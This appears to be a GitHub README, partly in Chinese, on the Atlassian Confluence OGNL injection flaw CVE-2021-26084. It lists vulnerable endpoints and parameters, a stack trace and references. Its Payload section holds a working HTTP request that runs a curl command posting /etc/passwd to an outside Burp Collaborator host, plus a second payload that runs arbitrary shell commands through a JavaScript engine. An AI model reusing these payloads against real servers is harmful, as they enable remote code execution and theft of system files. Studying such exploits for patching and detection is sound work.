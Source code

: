 ### url
```
URI Path                                   Vulnerable Parameters 
--------------------------------------------------------------------- 
/users/darkfeatures.action                 featureKey 
/users/enabledarkfeature.action            featureKey 
/users/disabledarkfeature.action           featureKey 
/login.action                              token 
/dologin.action                            token 
/signup.action                             token 
/dosignup.action                           token 
/pages/createpage-entervariables.action    queryString, linkCreation 
/pages/doenterpagevariables.action         queryString 
/pages/createpage.action                   queryString 
/pages/createpage-choosetemplate.action    queryString 
/pages/docreatepagefromtemplate.action     queryString 
/pages/docreatepage.action                 queryString 
/pages/createblogpost.action               queryString 
/pages/docreateblogpost.action.            queryString 
/pages/copypage.action                     queryString 
/pages/docopypage.action                   queryString 
/plugins/editor-loader/editor.action       syncRev
```
Ref: https://www.zerodayinitiative.com/blog/2021/9/21/cve-2021-26084-details-on-the-recently-exploited-atlassian-confluence-ognl-injection-bug
其中除两个重要的之外，其他都是需要登录的。


### Payload

```http
POST /pages/createpage-entervariables.action HTTP/1.1
Host: 127.0.0.1:8090
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 215

queryString=lalalala%5cu0027,(linkCreation)(0xd0ff90),%5cu0027lalalala&linkCreation=@java.lang.Runtime@getRuntime().exec('curl -X POST --data-binary @/etc/passwd x.burpcollaborator.net')
```

```http
queryString=aaaaaaaa\u0027%2b{Class.forName(\u0027javax.script.ScriptEngineManager\u0027).newInstance().getEngineByName(\u0027JavaScript\u0027).\u0065val(\u0027var+isWin+%3d+java.lang.System.getProperty(\u0022os.name\u0022).toLowerCase().contains(\u0022win\u0022)%3b+var+cmd+%3d+new+java.lang.String(\u0022ifconfig\u0022)%3bvar+p+%3d+new+java.lang.ProcessBuilder()%3b+if(isWin){p.command(\u0022cmd.exe\u0022,+\u0022/c\u0022,+cmd)%3b+}+else{p.command(\u0022bash\u0022,+\u0022-c\u0022,+cmd)%3b+}p.redirectErrorStream(true)%3b+var+process%3d+p.start()%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader(process.getInputStream())%3b+var+bufferedReader+%3d+new+java.io.BufferedReader(inputStreamReader)%3b+var+line+%3d+\u0022\u0022%3b+var+output+%3d+\u0022\u0022%3b+while((line+%3d+bufferedReader.readLine())+!%3d+null){output+%3d+output+%2b+line+%2b+java.lang.Character.toString(10)%3b+}\u0027)}%2b\u0027
```


### Demo
![](imgs/WechatIMG4182.png)
![](imgs/WechatIMG4183.png)
![](imgs/WechatIMG4189.png)
![](imgs/WechatIMG4208.png)
![](imgs/WechatIMG4214.png)
![](imgs/WechatIMG4216.png)
![](imgs/WechatIMG4225.png)


### Trace
```java
...
               at com.opensymphony.webwork.util.SafeExpressionUtil.isSafeExpression(SafeExpressionUtil.java:67)
                at com.opensymphony.webwork.util.OgnlValueFinder$Factory$1.findValue(OgnlValueFinder.java:29)
                at com.opensymphony.webwork.views.jsp.WebWorkTagSupport.findValue(WebWorkTagSupport.java:74)
                at com.opensymphony.webwork.views.jsp.WebWorkTagSupport.findString(WebWorkTagSupport.java:59)
                at com.opensymphony.webwork.views.jsp.ui.AbstractUITag.evaluateParams(AbstractUITag.java:285)
                at com.opensymphony.webwork.views.jsp.ui.AbstractUITag.doEndTag(AbstractUITag.java:213)
                at com.opensymphony.webwork.views.velocity.AbstractTagDirective.processTag(AbstractTagDirective.java:349)
                at com.opensymphony.webwork.views.velocity.AbstractTagDirective.render(AbstractTagDirective.java:122)
                at org.apache.velocity.runtime.parser.node.ASTDirective.render(ASTDirective.java:175)
                at org.apache.velocity.runtime.parser.node.ASTBlock.render(ASTBlock.java:72)
                at org.apache.velocity.runtime.parser.node.ASTIfStatement.render(ASTIfStatement.java:87)
                at org.apache.velocity.runtime.parser.node.SimpleNode.render(SimpleNode.java:336)
                at org.apache.velocity.Template.merge(Template.java:328)
                at org.apache.velocity.Template.merge(Template.java:235)
                at com.opensymphony.webwork.views.jsp.ui.template.VelocityTemplateEngine.renderTemplate(VelocityTemplateEngine.java:52)
                at com.opensymphony.webwork.views.jsp.ui.AbstractUITag.mergeTemplate(AbstractUITag.java:427)
                at com.opensymphony.webwork.views.jsp.ui.AbstractUITag.doEndTag(AbstractUITag.java:216)
                at com.opensymphony.webwork.views.velocity.AbstractTagDirective.processTag(AbstractTagDirective.java:349)
                at com.opensymphony.webwork.views.velocity.AbstractTagDirective.render(AbstractTagDirective.java:122)
                at org.apache.velocity.runtime.parser.node.ASTDirective.render(ASTDirective.java:175)
                at org.apache.velocity.runtime.parser.node.SimpleNode.render(SimpleNode.java:336)
                at org.apache.velocity.runtime.directive.Parse.render(Parse.java:263)
                at com.atlassian.confluence.setup.velocity.ProfilingParseDirective.render(ProfilingParseDirective.java:21)
                at org.apache.velocity.runtime.parser.node.ASTDirective.render(ASTDirective.java:175)
                at org.apache.velocity.runtime.parser.node.ASTBlock.render(ASTBlock.java:72)
                at com.atlassian.confluence.setup.velocity.ApplyDecoratorDirective.getRenderedTagBody(ApplyDecoratorDirective.java:179)
                at com.atlassian.confluence.setup.velocity.ApplyDecoratorDirective.render(ApplyDecoratorDirective.java:154)
                at org.apache.velocity.runtime.parser.node.ASTDirective.render(ASTDirective.java:175)
                at org.apache.velocity.runtime.parser.node.SimpleNode.render(SimpleNode.java:336)
                at org.apache.velocity.Template.merge(Template.java:328)
                at org.apache.velocity.Template.merge(Template.java:235)
                at com.opensymphony.webwork.dispatcher.VelocityResult.doExecute(VelocityResult.java:91)
                at com.atlassian.xwork.results.ProfiledVelocityResult.doExecute(ProfiledVelocityResult.java:18)
                at com.atlassian.confluence.setup.webwork.EncodingVelocityResult.doExecute(EncodingVelocityResult.java:43)
                at com.opensymphony.webwork.dispatcher.WebWorkResultSupport.execute(WebWorkResultSupport.java:116)
                at com.opensymphony.xwork.DefaultActionInvocation.executeResult(DefaultActionInvocation.java:263)
                at com.opensymphony.xwork.DefaultActionInvocation.invoke(DefaultActionInvocation.java:187)
                at com.opensymphony.xwork.interceptor.AroundInterceptor.intercept(AroundInterceptor.java:35)
                at com.opensymphony.xwork.DefaultActionInvocation.invoke(DefaultActionInvocation.java:165)
...
```


### Ref
 - https://github.com/projectdiscovery/nuclei-templates/commit/3a303530427f974dadc69471d3946ace0a776310
 - https://github.com/httpvoid/writeups/blob/main/Confluence-RCE.md
 - https://securitylab.github.com/research/bean-validation-RCE/
 - https://twitter.com/pwntester/status/1433888159083995136
 - https://twitter.com/iamnoooob/status/1431739398782025728
 - [[Atlassian Confluence CVE-2021–26084]::: The other side of bug report!](https://tradahacking.vn/atlassian-confluence-cve-2021-26084-the-other-side-of-bug-bounty-45ed19c814f6)
 - https://bugcrowd.com/disclosures/f76873aa-7acc-4f39-b94d-f066317e7c41/rce-on-confluence-data-center-via-ognl-injection
 - https://www.atlassian.com/blog/rebelutionary/misc/TSS-WebWork2.ppt

### 老漏洞
 - [<= 5.1.4 version OGNL double evaluation in atlassian-xwork](https://confluence.atlassian.com/doc/confluence-security-advisory-2013-08-05-389775711.html)
 - [<= 5.6 version OGNL Double Evaluation Vulnerability](https://confluence.atlassian.com/doc/confluence-security-advisory-2015-01-21-702712783.html)
 - [<= 5.5.1 version ClassLoader Manipulation vulnerability](https://confluence.atlassian.com/doc/confluence-security-advisory-2014-05-21-597557675.html)

